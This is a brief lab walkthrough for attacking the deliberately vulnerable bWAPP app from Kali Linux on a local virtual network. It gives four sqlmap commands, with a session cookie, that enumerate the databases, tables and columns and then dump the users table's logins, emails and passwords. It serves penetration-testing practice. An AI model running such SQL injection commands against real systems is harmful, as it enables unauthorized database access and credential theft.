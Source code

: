 # Kali + bWAPP

1. install Kali and bWAPP vm in virtual box;

   ![](/assets/access-bWAPP-from-kali.jpg)

2. launch bWAP and make sure it is running;

   ![](/assets/bWAPP-from-vm)

3. Launch Kali and make sure you can access the bWAPP from Iceweasel.

![](/assets/acces-bWAPP-from-kali)

1. Go to SQL Injection \(GET/Search\)

![](/assets/sql-get)

1. key in a search string; copy of the resulted URL;![](/assets/search-box)

2. Find out the cookie for the site;

![](/assets/get-cookie-pref)

![](/assets/get-cookie-id)

**Now, it is show time; launch SQLmap from terminal;**

**step1 **root@kali:~\# sqlmap -u "[http://192.168.56.101/bWAPP/sqli\_1.php?title=](http://192.168.56.101/bWAPP/sqli_1.php?title=)" --cookie="PHPSESSID=a9bd3686d9c53a3a8c0842c8886b564b;security\_level=0" --dbs

![](/assets/s1)

**step2 **root@kali:~\# sqlmap -u "[http://192.168.56.101/bWAPP/sqli\_1.php?title=](http://192.168.56.101/bWAPP/sqli_1.php?title=)" --cookie="PHPSESSID=a9bd3686d9c53a3a8c0842c8886b564b;security\_level=0" -D _**bWAPP **_--tables

![](/assets/s2)

**step3 **root@kali:~\# sqlmap -u "[http://192.168.56.101/bWAPP/sqli\_1.php?title=](http://192.168.56.101/bWAPP/sqli_1.php?title=)" --cookie="PHPSESSID=a9bd3686d9c53a3a8c0842c8886b564b;security\_level=0" -D _**bWAPP **_-T _**users **_--columns

![](/assets/s3)

**step4 **root@kali:~\# sqlmap -u "[http://192.168.56.101/bWAPP/sqli\_1.php?title=](http://192.168.56.101/bWAPP/sqli_1.php?title=)" --

cookie="PHPSESSID=a9bd3686d9c53a3a8c0842c8886b564b;security\_level=0" -D bWAPP -T users -C** login,email,password** --dump

![](/assets/s4)

